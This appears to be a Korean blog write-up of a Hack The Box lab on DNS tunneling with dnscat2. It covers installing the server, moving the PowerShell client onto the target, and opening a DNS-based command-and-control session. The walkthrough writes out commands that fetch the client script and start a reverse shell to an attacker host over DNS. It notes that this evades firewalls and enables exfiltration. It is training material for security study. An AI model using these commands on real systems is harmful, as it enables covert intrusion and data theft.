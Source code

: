 ```yaml
---
title: "DNS Tunneling with Dnscat2"
date: 2025-10-01
layout: single
author_profile: true
toc: true
toc_label: "DNS Tunneling"
toc_icon: "globe"
toc_sticky: true
tags: [networking, dns, tunneling, exfiltration, dnscat2]
header:
  teaser: /assets/network-screenshots/dnscat2/dnscat2.png
  teaser_home_page: true
---
```


**Dnscat2**는 DNS 프로토콜을 이용해 두 호스트 간에 암호화된 터널(커맨드 & 제어 채널)을 구성하는 도구이다.  
데이터는 주로 DNS의 TXT 레코드(또는 기타 레코드) 내부에 인코딩되어 전송되며, 일반적인 방화벽/프록시 규칙을 우회하거나 탐지를 어렵게 하는 데 사용될 수 있다.  
이 기법은 HTTPS 연결을 차단하거나 트래픽을 스니핑하는 방화벽을 회피하면서 데이터 유출에 악용될 수 있다.

---

# Dnscat2 설정 및 사용 실습

## 설치

먼저 `dnscat2` 저장소를 클론한다.

```bash
$ git clone https://github.com/iagox86/dnscat2.git

Cloning into 'dnscat2'...
remote: Enumerating objects: 6621, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 6621 (delta 2), reused 0 (delta 0), pack-reused 6611 (from 2)
Receiving objects: 100% (6621/6621), 3.84 MiB | 28.90 MiB/s, done.
Resolving deltas: 100% (4566/4566), done.
```

그후 몇 가지 설정을 한다.

```bash
$ cd dnscat2/server/
$ sudo gem install bundler
$ sudo bundle install
```

설치가 완료되면 클론한 디렉토리에서 `dnscat2` 서버를 시작할 수 있다.

## 서버 시작

클론한 리포지토리의 서버 디렉토리로 이동한 뒤 서버를 실행한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/server-start.png)

서버가 시작되면 콘솔에 `secret(예: c00d7a...)` 이 표시된다. 이 키는 클라이언트와의 암호화/인증에 사용되므로 클라이언트에 동일한 `--secret` 값을 제공해야 안전하게 통신할 수 있다.

## 공격 호스트에 dnscat2-powershell 복제

공격 호스트에 Windows용 클라이언트로 사용할 `dnscat2-powershell`을 클론한다.

```bash
$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

Cloning into 'dnscat2-powershell'...
remote: Enumerating objects: 194, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 194 (delta 0), reused 2 (delta 0), pack-reused 188 (from 1)
Receiving objects: 100% (194/194), 1.27 MiB | 22.74 MiB/s, done.
Resolving deltas: 100% (59/59), done.
```

이후 문제에서 제공한 아이디/비밀번호(`htb-student/HTB_@cademy_stdnt!`) 를 이용하여 RDP 세션에 접속한다.

```bash
$ xfreerdp3 /v:10.129.42.198 /u:htb-student /p:HTB_@cademy_stdnt!
```

이후, `python3` 웹 서버를 열어 공격 호스트에 `dnscat2.ps1` 파일을 옮겨준다.

```bash
$ python3 -m http.server 9999
```

공격 호스트에 `wget` 명령어를 이용하여 다운로드 한다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/wget.png)


## 세션 설정

`Import-Module` 명령어를 이용하여 `dnscat2.ps1` 스크립트를 불러온다.

```powershell
C:\Users\htb-student> Import-Module .\dnscat2.ps1
```

이후, 로컬에서 실행 중인 **dnscat2 서버의 주소와 도메인, Secret 키를 사용**해 클라이언트를 시작한다.

```powershell
C:\Users\htb-student> Start-Dnscat2 -DNSserver 10.10.14.89 -Domain inlanefreight.local -PreSharedSecret c00d7a451bf93fa63626874a78d0f5da -Exec cmd
```

설정 후 나의 로컬 쪽 dnscat2 터미널로 돌아가면 다음과 같이 **세션 연결** 로그를 확인할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/session-connect.png)

이후 `dnscat` 콘솔에서 리버스 연결로 생성된 세션 창을 선택(`window -i 1`)하면 `C:\Users\htb-student` 사용자의 쉘을 획득할 수 있다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/whoami.png)

`whoami` 명령어를 사용하여 해당 세션이 **officemanager 도메인 OR 호스트 소속의 htb-student 계정**임을 확인할 수 있다.

## Flag 획득

문제에서 제공한 `C:\Users\htb-student\Documents\flag.txt` 경로의 파일을 읽어 플래그를 획득하였다.

![Netsh Port Forward Diagram](/assets/network-screenshots/dnscat2/flag.png)

이로써 **Dnscat2** 실습을 마쳤다.




